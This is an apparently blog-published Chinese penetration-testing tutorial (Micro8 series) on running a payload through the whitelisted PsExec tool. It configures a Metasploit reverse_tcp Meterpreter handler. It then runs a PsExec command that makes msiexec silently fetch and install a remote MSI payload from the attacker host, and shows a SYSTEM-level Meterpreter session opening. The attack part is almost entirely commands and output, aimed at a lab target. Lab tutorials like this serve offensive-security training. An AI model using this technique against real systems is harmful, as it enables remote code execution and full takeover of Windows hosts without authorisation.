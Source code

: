 ```yaml
---
title: 83、基于白名单PsExec执行payload第十三季
date: 2019-09-21 19:06:40
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### PsExec简介：

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：  
https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

说明：PsExec.exe没有默认安装在windows系统。

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：

```code
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](../do/media/665d55d525ed72757f30454ada5a71de.jpg)

### 靶机执行：
![](../do/media/3832b47f170fb110c44a283765b4bfd4.jpg)

```code
PsExec.exe -d -s msiexec.exe /q /i <http://192.168.1.4/Micropoor_rev_x86_msi_53.txt>
```

![](../do/media/ac4359c43440d555b4e873409425927c.jpg)

```code
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53

[*] Sending stage (179779 bytes) to 192.168.1.119

[*] Meterpreter session 11 opened (192.168.1.4:53 ‐> 192.168.1.119:131) at 2019‐01‐20 05:43:32 ‐0500 

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter > getpid

Current pid: 728

meterpreter > 
```
![](../do/media/14842fe0c4f8775c8de53de6583282a1.jpg)

>   Micropoor
